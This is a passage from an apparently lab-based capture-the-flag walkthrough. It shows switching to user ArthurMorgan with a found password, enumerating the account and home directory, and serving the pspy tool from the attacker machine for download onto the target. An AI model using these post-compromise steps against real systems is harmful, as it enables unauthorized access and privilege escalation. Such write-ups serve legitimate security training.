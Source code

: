 Found user `ArthurMorgan`'s password!

**Let's Switch User to `ArthurMorgan`:**
```shell
^C2023/01/20 10:14:28 client: Disconnected
2023/01/20 10:14:28 client: Give up
www-data@incognito:/var/www/html/dev$ su ArthurMorgan
Password: 
$ /bin/bash
ArthurMorgan@incognito:/var/www/html/dev$ whoami;hostname;id;ip a
ArthurMorgan
incognito
uid=1001(ArthurMorgan) gid=1002(ArthurMorgan) groups=1002(ArthurMorgan),1001(smbgrp)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:10:08:a6:9f:51 brd ff:ff:ff:ff:ff:ff
    inet 10.10.207.207/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2375sec preferred_lft 2375sec
    inet6 fe80::10:8ff:fea6:9f51/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm user `ArthurMorgan`!

### ArthurMorgan to marston

**Let's check our home directory!**
```shell
ArthurMorgan@incognito:/var/www/html/dev$ cd ~
ArthurMorgan@incognito:~$ ls -lah
total 32K
drwxr-xr-x 6 ArthurMorgan ArthurMorgan 4.0K May 28  2021 .
drwxr-xr-x 4 root         root         4.0K Mar 21  2021 ..
lrwxrwxrwx 1 root         root            9 Mar 23  2021 .bash_history -> /dev/null
drwx------ 2 ArthurMorgan ArthurMorgan 4.0K Mar 21  2021 .cache
drwxr-x--- 3 ArthurMorgan ArthurMorgan 4.0K Mar 21  2021 .config
drwx------ 4 ArthurMorgan ArthurMorgan 4.0K Mar 21  2021 .gnupg
-rw-r--r-- 1 ArthurMorgan ArthurMorgan   56 Mar 21  2021 ideas
drwxrwxr-x 3 ArthurMorgan ArthurMorgan 4.0K Mar 21  2021 .local
-rw-r--r-- 1 ArthurMorgan ArthurMorgan   33 Mar 21  2021 user.txt
```

```shell
ArthurMorgan@incognito:~$ cat ideas 
I don't know why I don't get any ideas to write here...
```

Nothing useful.

**`pspy`:**
```shell
┌[root♥siunam]-(/opt/pspy)-[2023.01.20|18:25:47(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
